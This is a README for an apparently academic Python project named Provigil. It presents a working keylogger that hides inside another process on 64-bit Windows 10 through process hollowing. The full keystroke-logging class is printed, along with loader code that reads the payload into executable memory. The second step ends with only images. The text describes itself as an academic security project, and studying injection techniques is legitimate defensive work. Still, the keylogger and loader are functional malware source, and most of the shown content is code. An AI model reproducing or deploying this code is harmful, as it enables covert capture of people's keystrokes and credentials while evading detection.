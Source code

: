 ```yaml
---
description: >-
  Academic security project in python on process injection for Windows 10 64 bit
  platform.
coverY: 0
---
```


# 💀 Provigil : Trivial keylogger with Process Hollowing

## Synopsis

Provigil is a simple keylogger wrote in python which uses process injection to hide it self. The Provigil project is split in two modules : the first one is **Provigil.py** which contains the keylogger and the second one is **ProLoader.py **whose purpose is to inject the keylogger (Provigil.py) into a process.

![Project architecture](<.gitbook/assets/image (1).png>)

There is differents techniques to inject malicious code into a victim process such as : _Extra Windows Memory injection, Classic DLL injection_, ect.. Provigil uses **Process Hollowing** technique. The latter consists to hollow out legitimate code from the target process' memory and replaces it with a malicious executable.

![Process Hollowing Injection](.gitbook/assets/process-injection-techniques-blogs-runpe.gif)

## Keylogger&#x20;

First, let's focus on **Provigil.py.**

```python
import pyWinhook as pyHook
import pythoncom, sys, logging


class KeyLogger:

    buffer = ""
    file_log = 'C:\\Users\toto\Documents\log.txt'

    def __init__(self):
        self.init_log()
        

    def init_log(self):
        logging.basicConfig(filename=self.file_log, level=logging.DEBUG, format='%(message)s')

    def KeyboardEvent(self, event):
        if event.Ascii == 13:
            logging.log(10, self.buffer)
            self.buffer = ""
        elif event.Ascii == 27:
            exit(0)
        else:
            self.buffer += chr(event.Ascii)
        return True

    def keyCapture(self):
        hooks_manager = pyHook.HookManager()
        hooks_manager.KeyDown = self.KeyboardEvent
        hooks_manager.HookKeyboard()
        pythoncom.PumpMessages()
```

## Step 1 : Load Keylogger Executable

The first step consists to load the Provigil keylogger executable in memory.&#x20;

The Windows API function call **CreateFileW **returns a handle that can be used to access the file. We use it to have different information about the file.

```python
hReplacement = HANDLE()
        hReplacement = windll.kernel32.CreateFileW(
        self.PAYLOAD_EXE,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        0,
        0)
        if (hReplacement == -1):
            logger.error(f"\tCreateFile error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Thanks to handler we can get the keylogger program size to allocate memory. I use the WinAPI function **VirtualAlloc **wich set automatically the memory initialized to zero. `allocated_adress `contains now the base address of the allocated region of pages.

```python
file_size = windll.kernel32.GetFileSize(hReplacement, 0)

allocated_address = windll.kernel32.VirtualAlloc(
            0,
            file_size,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
        if allocated_address == 0:
            logger.error(f"\tVirtualAlloc error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then we call **ReadMemory **function to load the file at the address we previously allocated.

```python
totalNumberofBytesRead = DWORD()
if windll.kernel32.ReadFile(
    hReplacement, 
    LPVOID(allocated_address), 
    file_size, 
    byref(totalNumberofBytesRead), 
    0) == 0:
    logger.error(f"\tError when Reading malware: {FormatError(GetLastError())}")
    sys.exit(1)
windll.kernel32.CloseHandle(hReplacement)
```

### Check

Refering to the logs, keylogger process has been loaded at address `0x2e5149e0000 `

![ProLoader logs](<.gitbook/assets/image (3).png>)

We debug the process thanks WinDbg to inspect the memory. Thus, we can see that the process header is corretly load at the correponding address.

![ProLoader memory process](<.gitbook/assets/image (2).png>)

## Step 2 : Get Victim Process' Address



![ProLoader logs](<.gitbook/assets/image (6).png>)

![](.gitbook/assets/image.png)
